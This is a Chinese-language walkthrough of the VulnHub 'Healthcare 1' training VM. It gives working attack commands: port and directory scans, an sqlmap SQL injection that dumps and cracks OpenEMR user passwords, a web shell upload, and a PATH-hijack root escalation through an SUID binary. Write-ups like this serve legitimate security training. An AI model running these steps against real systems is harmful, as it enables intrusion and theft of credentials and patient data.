





# Healthcare 1

> https://download.vulnhub.com/healthcare/Healthcare.ova

靶场IP：`192.168.32.221`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.221                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 09:56 EDT
Nmap scan report for 192.168.32.221
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
MAC Address: 00:0C:29:0F:7D:F1 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds

```

ftp登录失败

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.221
Connected to 192.168.32.221.
220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.32.221]
Name (192.168.32.221:root): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.

```

浏览器访问80端口


爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.221/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 –e                                                                                                                 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.221/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/10 09:58:23 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 341] [--> http://192.168.32.221/css/]
/js                   (Status: 301) [Size: 340] [--> http://192.168.32.221/js/] 
/vendor               (Status: 301) [Size: 344] [--> http://192.168.32.221/vendor/]
/favicon              (Status: 200) [Size: 1406]                                   
/robots               (Status: 200) [Size: 620]                                    
/images               (Status: 301) [Size: 344] [--> http://192.168.32.221/images/]
/index                (Status: 200) [Size: 5031]                                   
/fonts                (Status: 301) [Size: 343] [--> http://192.168.32.221/fonts/] 
/gitweb               (Status: 301) [Size: 344] [--> http://192.168.32.221/gitweb/]
/phpMyAdmin           (Status: 403) [Size: 59]                                     
/server-status        (Status: 403) [Size: 1000]                                   
/server-info          (Status: 403) [Size: 1000]                                   
/openemr              (Status: 301) [Size: 345] [--> http://192.168.32.221/openemr/]
                                                                                    
===============================================================
2022/09/10 10:03:30 Finished
===============================================================

```

访问：`/openemr/`


其中该版本有[SQL注入漏洞](https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/)。

```
sqlmap -u http://192.168.32.221/openemr/interface/login/validateUser.php?u= -D openemr -T users --dump --batch
```

```
[10:04:34] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[10:04:34] [INFO] starting 2 processes 
[10:04:38] [INFO] cracked password 'ackbar' for user 'admin'
[10:04:47] [INFO] cracked password 'medical' for user 'medical' 
```



使用admin登录



在files那里添加shell



访问config

```
http://192.168.32.221/openemr/interface/main/main_screen.php?auth=login&site=default
```



现在，我们有了一个 revere shell，让我们在 python-onliner 的帮助下将它升级为一个完全交互式的 TTY shell，并进一步进行 post enumeration 以提升 root 权限。因此，首先我们以**medical:medica** l（通过 SQLi 枚举）身份登录，然后尝试使用 find 命令识别 SUID 启用二进制文件。

```
sh-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ su medical
su medical
Password: medical

[medical@localhost /]$ 

[medical@localhost /]$ find / -perm -u=s -type f 2> /dev/null
find / -perm -u=s -type f 2> /dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount

```

我们发现为 `/usr/bin/healthcheck` 启用了 SUID 位，我们使用 strings 命令进一步探索"healthcheck"，我们发现它通过运行"ifconfig"和"fdisk"等命令来扫描系统：

```
[medical@localhost /]$ strings /usr/bin/healthcheck
strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h

```

我们可以使用使用 PATH 变量的权限提升技术来利用系统，从**[这里](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)** 阅读以了解更多信息：

```
cd /tmp 
echo "/bin/bash" > fdisk 
chmod 777 fdisk 
export PATH="/tmp:$PATH"
/usr/bin/healthcheck 
cd /root 
ls
```


